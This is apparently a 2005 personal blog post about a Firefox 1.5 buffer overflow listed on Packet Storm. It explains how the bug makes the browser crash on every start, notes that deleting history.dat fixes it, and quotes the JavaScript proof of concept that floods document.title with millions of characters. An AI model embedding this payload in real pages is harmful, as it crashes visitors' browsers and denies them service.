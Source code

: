 ```yaml
---
author: phil
comments: true
date: 2005-12-07 19:05:00
layout: post
slug: firefox-buffer-overflow
title: Firefox buffer overflow
wordpress_id: 59
categories:
- General
tags:
- code
- hacker
- security
---
```


There's a [Firefox buffer overflow](http://packetstormsecurity.org/0512-exploits/firefox-1.5-buffer-overflow.txt) script listed on Packet Storm.  The Javascript can be embedded into HTML and make Firefox log a very long topic line into its history.dat file.  Any ensuing Firefox starts will cause a crash due to a buffer overflow.  The fix would be to delete the history.dat file, which would be recreated automatically during the next start, but that's not something most users would know.  I'm sure this will be patched quickly, but this has to be the first type of bug I've seen targeting Firefox.




    
    <code>function ex() {
    var buffer = "";
    for (var i = 0; i < 5000; i++) {
    buffer += "A";
    }
    var buffer2 = buffer;
    for (i = 0; i < 500; i++) {
    buffer2 += buffer;
    }
    document.title = buffer2;
    }</code>



